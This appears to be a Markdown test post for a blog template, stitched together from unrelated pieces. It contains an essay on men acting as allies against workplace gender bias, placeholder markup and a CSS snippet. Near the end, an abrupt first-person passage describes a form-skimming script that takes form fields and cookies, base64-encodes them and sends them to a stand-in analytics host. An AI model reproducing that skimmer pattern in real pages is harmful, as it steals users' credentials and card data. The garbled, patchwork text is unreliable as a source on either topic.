 ```yaml
---
path: '/second-post'
title: 'Second Blog Post'
published: true
date: '2017-11-23'
author: 'James Willis'
minutes: '4'
---
```


## Be a Pal, My Dudes
### A few specific ideas for being a good ally

So, we run a [workshop](google.com) to help women reduce the impact of gender bias in the workplace. A commonly asked question is something like “Why aren’t you running a workshop for men, since they are the ones who have to change?” The short answer is that it’s a complex dynamic, and women have the most incentive to change it. Our approach is to help decrease the amount of effort overall since women in male-dominated workplaces are already putting in so much extra because of bias. If you want to change habits, start where there are already strong incentives for change.

The longer answer is, we’re working on it.

In the meantime, I know there are a lot of men out there right now with good intentions who want to help change things, but it’s not always clear which actions are most helpful. And asking the people who are already doing extra work to do the additional work of teaching you how to help them do less work is…annoying. This is true for anyone who has more privilege in any given situation. Do your part to make it easier.

***

![This is a caption](https://images.unsplash.com/photo-1506269351850-0428eaed2193?ixlib=rb-0.3.5&ixid=eyJhcHBfaWQiOjEyMDd9&s=a1512d7659e4817df8217cdb9aa09d7a&auto=format&fit=crop&w=1350&q=80)
<figcaption>sdsd</figcaption>

```css
#header h1 a {
  display: block;
  width: 300px;
  height: 80px;
}
```


Then, when there’s a blur event on a password/credit card field, or a form submit event is heard, my code:

* Takes data from all form fields (document.forms.forEach(…)) on the page
* Grabs document.cookie
* It turns all that into a random looking string const payload = btoa(JSON.stringify(sensitiveUserData))
* Then sends it off to `https://legit-analytics.com?q=${payload}` (not the real domain, of course)
* In `short`, if ```it looks``` like data that might be even remotely valuable to me, I send it off to my server.

> f an attacker successfully injects any code at all, it’s pretty much game over

In some wise words from <u>Google</u>: